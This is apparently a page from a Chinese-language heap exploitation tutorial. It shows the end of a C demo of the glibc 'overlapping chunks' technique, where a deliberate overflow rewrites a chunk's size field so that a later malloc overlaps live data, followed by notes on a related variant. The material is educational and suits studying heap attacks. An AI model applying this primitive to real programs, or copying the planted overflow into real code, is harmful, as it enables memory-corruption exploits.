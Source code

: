 ```c
  memset(p3,'C',real_size_p3);
  memset(p4,'D',real_size_p4);
  memset(p5,'E',real_size_p5);
  
  fprintf(stderr, "\nLet's free the chunk p4.\nIn this case this isn't coealesced with top chunk since we have p5 bordering top chunk after p4\n"); 
  
  free(p4);

  fprintf(stderr, "\nLet's trigger the vulnerability on chunk p1 that overwrites the size of the in use chunk p2\nwith the size of chunk_p2 + size of chunk_p3\n");

  *(unsigned int *)((unsigned char *)p1 + real_size_p1 ) = real_size_p2 + real_size_p3 + prev_in_use + sizeof(size_t) * 2; //<--- BUG HERE 

  fprintf(stderr, "\nNow during the free() operation on p2, the allocator is fooled to think that \nthe nextchunk is p4 ( since p2 + size_p2 now point to p4 ) \n");
  fprintf(stderr, "\nThis operation will basically create a big free chunk that wrongly includes p3\n");
  free(p2);
  
  fprintf(stderr, "\nNow let's allocate a new chunk with a size that can be satisfied by the previously freed chunk\n");

  p6 = malloc(2000);
  real_size_p6 = malloc_usable_size(p6);

  fprintf(stderr, "\nOur malloc() has been satisfied by our crafted big free chunk, now p6 and p3 are overlapping and \nwe can overwrite data in p3 by writing on chunk p6\n");
  fprintf(stderr, "\nchunk p6 from %p to %p", p6,  (unsigned char *)p6+real_size_p6);
  fprintf(stderr, "\nchunk p3 from %p to %p\n", p3, (unsigned char *) p3+real_size_p3); 

  fprintf(stderr, "\nData inside chunk p3: \n\n");
  fprintf(stderr, "%s\n",(char *)p3); 

  fprintf(stderr, "\nLet's write something inside p6\n");
  memset(p6,'F',1500);  
  
  fprintf(stderr, "\nData inside chunk p3: \n\n");
  fprintf(stderr, "%s\n",(char *)p3); 


}
```

## 3.2 Overlapping Chunks / Increase free chunks / 增加free chunk大小

本攻击适用于能够增加被free的chunk的大小，使得下一次malloc时能够覆盖被free的chunk后面的chunk

* 条件
  * 能够增加已经free的chunk的大小
* 安全检查
  * 设置已free的chunk的PREV_INUSE为1，（不是必须？？）
